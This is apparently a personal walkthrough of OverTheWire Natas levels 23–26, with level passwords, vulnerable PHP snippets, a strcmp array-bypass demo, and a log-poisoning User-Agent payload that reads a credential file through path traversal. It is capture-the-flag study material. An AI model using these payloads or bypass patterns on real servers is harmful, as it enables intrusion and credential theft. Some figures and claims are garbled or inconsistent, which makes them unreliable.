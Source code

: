 ## 23->24
- http://natas23.natas.labs.overthewire.org/?passwd=11iloveyou
- `natas24:MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd`
```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        // This checks if the submitted password contains the substring "iloveyou"
        // AND if the password (when compared as a string) is greater than 10.
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```

## 24->25
- http://natas24.natas.labs.overthewire.org/
- `natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws`
- https://nils-maeurer.de/post/overthewire-natas22-25/#natas24
- For this one, we know the max password length is 20, assuming upper and lower case characters and numbers 0-9, that's `62^20`, or `7044 * 10^35`. Too big to brute force.
- Enter, a `strcmp` vulnerability... https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016
- The vulnerability is `strcmp` returns `0` if a string is compared to an empty array 
```php
<?php
    // Simulate receiving array in request
    $_REQUEST["passwd"] = array("test"); 
    
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"test")){
            echo "<br>Success!<br>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
?> 
```
This would print "Success!" because passing an array to `strcmp()` causes it to return `NULL`, and `!NULL` is `TRUE`.


## 25->26
- http://natas25.natas.labs.overthewire.org/
- `natas26:cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE`
- 2025-07-11: Break Day
- https://nils-maeurer.de/post/overthewire-natas22-25/#natas25
- This one was pretty tricky. To solve it, we needed to understand how we could exploit path traversal, reuse what was being logged (`$_SERVER['HTTP_USER_AGENT']` -> User-Agent: `<?php readfile("/etc/natas_webpass/natas26") ?>`) to our advantage, and the server file structure.
<img width="1512" height="982" alt="Screenshot 2025-07-12 at 5 04 25 PM" src="https://github.com/user-attachments/assets/0ec5b14b-152f-4385-b65d-a2722a40e15e" />
